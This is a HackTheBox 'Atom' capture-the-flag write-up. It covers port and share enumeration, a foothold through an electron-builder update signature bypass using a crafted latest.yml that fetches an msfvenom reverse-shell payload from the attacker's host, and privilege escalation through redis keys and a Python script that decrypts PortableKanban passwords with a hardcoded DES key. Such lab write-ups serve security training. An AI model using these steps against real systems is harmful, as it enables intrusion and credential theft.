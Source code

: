 ```yaml
---
title: HackTheBox - Atom Writeup
date: 2021-05-08 09:45:47 +07:00
categories: hackthebox
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: HackTheBox Atom Writeup.
---
```


<h1 align="center"> HTB Atom - Writeup</h1>

<p align="center">
 <img src="https://www.hackthebox.eu/storage/avatars/27ea1e1be5e83989ad5b6361773f4eaa.png">
</p>

Its me **m3rcer** back with another one .
This is a fun little box w a medium difficulty. There's a few rabbit holes but other than that its quite straightforward . In my opinion i found the privesc a bit harder than the inital foothold . 

*[Find the official link for HacktheBox - Atom here!](https://app.hackthebox.eu/machines/340)*

Lets Begin!

----------------------------------------------------------------------------------------------------

### ENUMERATION

We kick it off w a usual nmap scan . In this case a default script and version scan w the verbose flag to see open ports on the fly without having to wait for the scan to finish.

![Image](images/atom1.png)

A full port scan reveals redis is active on port 6379 along w winrm at 5985 which shows we can probably use remoting with authentic creds.

![Image](images/atom2.png)

We start off by checking port 80:

We find a possible uname at th end of the page : MrR3boot@atom.htb.

From this we infer and add atom.htb to /etc/hosts list. And continue browsing .

Directory Bruteforcing w gobuster results in nothing too great so moving on! 

**Enumerating redis:**

![Image](images/atom7.png)

Much cant be enumerated since redis requires auth . Checking the format of auth shows it requires only the pass. We could attempt to brute force the pass if nothing turns up from smb.

**Enumerating smb:**

![Image](images/atom3.png)

Smbmap shows use we have access to 2 shares amongst which IPC$ is the default and can be used for named pipe enum using enum4linux later .
Software_Updates seems interesting as we have right access too to it.


Using smbclient to connect to the share:

![Image](images/atom4.png)

The other folders are empty so be grap the pdf. Looking at the pdf given we infer 2 things:


**Built with : electron-builder**

We can place the update in any client folder and the automated script would check the update. We can probably replace some code to give us a shell here..


This link explains the exploit : [electron-builder-Exploit](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)

In short is a vuln caused my and unescaped variable . We can trigger a parse error in the script .

The exploit bypasses inbuilt signature checks.

![Image](images/atom5.png)

![Image](images/atom6.png)

----------------------------------------------------------------------------------------------------

### FOOTHOLD

**I did the following to recreate the vuln:**

- Generate an msfvenom payload of choice . I generated a rev https exe. and then rename it with a single quote.

![Image](images/atom8.png)

I renamed the file to d'payload.exe

![Image](images/atom10.png)

- Calculate the hash using the prescribed syntax : 

![Image](images/atom9.png)

- Setup a listener on msfconsole to catch your shell using multi/handler.

- Generate the latest.yml file update: Replace the path and the hash.

```bash
version: 1.2.3
path: http://10.10.14.52/d'payload.exe 
sha512: a/xp95BNvRKGxbxRZv+1LOEIs9uaSX6wGz6ip+RDX2XjNkTFVJbwIZ9T21SN40sq/78zYZmb9IxATX710s58Rg==
```

- Start a server to host d'payload.exe using:

`sudo python -m SimpleHTTPServer 80`

- Finally put the update file in one of the client folders on the share using smbclient.
Wait for about 15-20 secs and let the update happen . You will recieve a meterpreter shell!

![Image](images/atom11.png)

Congrats We now have a reverse shell. 

A getuid command shows we are ATOM\jason.

Great!

***GETTING USER.txt***

__C:\Users\jason\Desktop\user.txt__ 

Retrieve contents of the file to see your flag!

----------------------------------------------------------------------------------------------------

### PRIVESC:

**Enumerating with winpeas:**

Begin by dropping winpeas on the box.

![Image](images/atom12.png)

Run it...

Details found :

- jasons creds :

![Image](images/atom13.jpg)

Dosent allow winrm remoting but...

- A user guide pdf which we might have a look at if needed .... 

![Image](images/atom17.png)


- Since we already know redis was on ... I found its conf file . Looks juicy . Lets have a look:

![Image](images/atom14.png)

We found the pass for redis. 

![Image](images/atom15.jpg)



**PENTESTING redis:**

Use this [link](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis) as a reference to pentest redis.

Now follow the steps:

- Connect to redis using:
`redis -h 10.10.10.237`

- Authenticate using the password:
`auth pass`

- Retrive info on the keyspace using:
`info keyspace`

- We see that there is one db - number 0 which has 4 keys.
View the keys by:
`keys *`

- We see a bunch of keys . Retrieve the first or last , it might most likely be the administrator using:
`get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0`

![Image](images/atom16.jpg)


- We now have the administrator hash ! Awesome!


Ater looking a lot on how to decrypt the hash i decided to look back at the "User guide.pdf" to look for clues and i found :

![Image](images/atom18.png)

Googling around made me figure that portable-kanban stores the settings for the enc pass.

Searching around for an exploit i found an enc password disclosure vuln [here](https://www.torchsec.net/portablekanban-4-3-6578-38136-encrypted-password-disclosure-torchsec/) .

- Remove the unnecessary except statement.

The python script:

```python
import json
import base64
from des import * 

#python3 -m pip install des

try:
    hash = str(input("Enter the Hash : "))
    hash = base64.b64decode(hash.encode('utf-8'))
    key = DesKey(b"7ly6UznJ")
    print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
except:
    print("Wrong Hash")
```
- Install des using ... `sudo pip3 install des` as stated in the script.

- Run the script , i/p your hash and get the decrypted hash. 

![Image](images/atom20.jpg)


We now finally have the password of admin. 

Lets try winrm again using these creds.... 


![Image](images/atom19.jpg)

**GETTING Root.txt**

__type C:\Users\Administrator\Desktop\root.txt__

And thats a wrap!

 _Bookmark to recieve the latest writeups!_

----------------------------------------------------------------------------------------------------





